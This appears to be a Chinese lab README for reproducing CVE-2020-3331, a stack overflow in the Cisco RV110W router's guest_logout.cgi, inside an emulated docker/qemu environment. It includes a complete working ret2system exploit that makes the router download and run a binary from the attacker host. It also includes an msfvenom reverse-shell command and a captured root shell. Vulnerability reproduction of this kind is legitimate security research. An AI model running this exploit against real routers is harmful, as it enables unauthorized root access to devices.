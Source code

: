 # Cisco RV110W 路由器远程代码执行漏洞（CVE-2020-3331）

[思科路由器 RV110W CVE-2020-3331 / CVE-2020-3323 漏洞复现](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

- 版本：Cisco RV110W 1.2.2.5
- 漏洞：前台 cgi 接口 `guest_logout.cgi` 栈溢出
- 利用：a0 寄存器可控，ret2system

```python
#!/usr/bin/python3

from pwn import *
import requests
from threading import Thread

context(arch='mips', endian='little', os='linux')

system = 0x0047A610

cmd  = '\n'
cmd += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf\n'

assert(len(cmd) < 0x55)

payload = b"status_guestnet.asp" + cmd.ljust(0x55,'a').encode() + p32(system) 
data = {"cmac":"12:af:aa:bb:cc:dd", "submit_button":payload, "cip":"192.168.100.1"}

def attack():
    try: requests.post("http://192.168.2.2/guest_logout.cgi", data=data, timeout=1)
    except: pass

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/qemu-system:mipsel

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/qemu-system/mipsel && docker build -t firmianay/qemu-system:mipsel . && cd ../../../
```

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/RV110W_FW_1.2.2.5.bin"
```

使用 Metasploit 生成反向 shell，并复制到 `system-emu/tools` 目录下：

```sh
$ msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-mipsel CVE-2020-3331/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/mipsel-gdbserver-7.11.1 CVE-2020-3331/system-emu/tools/gdbserver

$ cd Cisco/CVE-2020-3331
$ docker-compose -f docker-compose-system.yml build
```

## 首次攻击尝试

仍然在 `Cisco/CVE-2020-3331` 目录中，启动镜像：

```sh
$ docker-compose -f docker-compose-system.yml up
```

出现如下内容说明 Web 服务启动完成：

```
cisco-system  | http_settimeouts=Unknown
cisco-system  | http_settimeouts_usec=Unknown
cisco-system  | http_debug=Unknown
```

再开启一个容器的 shell，即可尝试首次攻击：

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ python3 ./tools/exp.py
[+] Trying to bind to :: on port 31337: Done
[+] Waiting for connections on :::31337: Got connection from ::ffff:192.168.2.2 on port 57638
[+] getshell
[*] Switching to interactive mode
$ uname -a
Linux debian-mipsel 3.2.0-4-4kc-malta #1 Debian 3.2.51-1 mips unknown
$ id
uid=0 gid=0
```

## docker 中调试

参考 `run.sh` 进行配置。

窗口一：开启调试（qemu-system shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ cd images
root@7463bb44fe27:$ ps -ef | grep qemu-system  | awk '{print $2}' | xargs kill -9
root@7463bb44fe27:$ qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic

即可进入 qemu-system，以 root:root 手动登录后进行调试：

root@debian-mipsel:$ cd squashfs-root/
root@debian-mipsel:$ ./tools/run_httpd.sh
root@debian-mipsel:$ ps -ef | grep httpd | grep -v 'grep' | awk '{print $2}' | xargs ./tools/gdbserver :6666 --attach
Attached; pid = 2328
Listening on port 6666
```

窗口二：调试界面（docker shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ tar xzf squashfs-root.tar.gz
root@7463bb44fe27:$ gdb-multiarch -x ./tools/gdb.cmd 
gef➤  c
```

窗口三：触发漏洞（docker shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ python3 ./tools/exp.py
```

## 本机调试

如果你不想用 docker 进行调试，在 docker-compose 中预留了端口映射，可以手动使用 ssh 将 qemu 靶机的 80 和 6666 端口转发到 docker 主机，通过 docker 最终映射到宿主机的端口上：

```yml
ports:
    - "8888:80"
    - "6666:6666"
```

在 docker 里执行如下命令进行端口转发：

```sh
$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:6666:192.168.2.2:6666
$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:80:192.168.2.2:80
```

待启动调试后，即可在宿主机上访问 8888 和 6666 端口来访问漏洞服务和 gdbserver 了。
